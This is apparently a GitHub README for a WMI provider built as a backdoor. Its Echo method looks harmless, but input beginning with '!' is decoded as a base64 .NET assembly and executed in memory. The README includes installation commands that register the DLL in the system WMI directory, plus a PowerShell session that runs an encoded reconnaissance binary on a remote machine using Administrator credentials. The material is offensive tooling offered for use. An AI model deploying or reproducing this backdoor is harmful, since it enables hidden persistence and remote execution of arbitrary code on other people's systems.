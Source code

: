 # Script Kiddie WMI Provider

This repo contains the source code necessary to build the Script Kiddie WMI Provider example from the blog, "WMI Providers for Script Kiddies". Please see the blog for a description of the WMI provider.

# Capabilities

The Script Kiddie provider demonstrates how to implement a WMI method provider. It implements/exposes one method: Echo. This method has a begnin function and a secret function.

## Begnin Function

The Echo method simply returns the input argument prepended with the string "Echo: ".

## Secret Function

If the input argument begins with '!', then the method will:

1. Decoded the input argument
2. Load the decoded .NET assembly into memory
3. Execute the .NET assembly from memory
4. Return the .NET assembly output

# Build

1. Open the solution with Visual Studio
2. Build the release version
3. Binaries are generated in bin/Release/ subdirectory

# Install

1. Copy the binaries to target (preferrably C:\Windows\System32\wbem\)
2. Install the .NET assembly using Microsoft .NET Install Utility
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe C:\Windows\System32\wbem\Win32_Echo.dll
```
NOTE: On x86 systems the Install Utility directory is under C:\Windows\Microsoft.NET\Framework

# Use

## Begnin Function
```
PS C:\tmp> Invoke-WMIMethod -Namespace ROOT\test -Class Win32_Echo -Name Echo -ArgumentList "Hello World!"


__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 1
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      : Echo: Hello World!
PSComputerName   :
```

## Secret Function
```
PS C:\tmp> .\recon.exe

recon
=============================
userName:  WIN10-X64-DEV\todda1
dnsName:   Win10-x64-Dev
ipAddress: 192.168.0.134

PS C:\tmp> $exeContent = Get-Content C:\tmp\recon.exe -Encoding byte

PS C:\tmp> $encodedContent = [System.Convert]::ToBase64String($exeContent)

PS C:\tmp> Invoke-WMIMethod -Credential 192.168.0.104\Administrator -ComputerName 192.168.0.104 -Namespace "ROOT\test" -Class "Win32_Echo" -Name "Echo" -ArgumentList "!$encodedContent"


__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 1
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ReturnValue      :
                   recon
                   =============================
                   userName:  WIN10-X86\Administrator
                   dnsName:   win10-x86
                   ipAddress: 192.168.0.104

PSComputerName   :
```
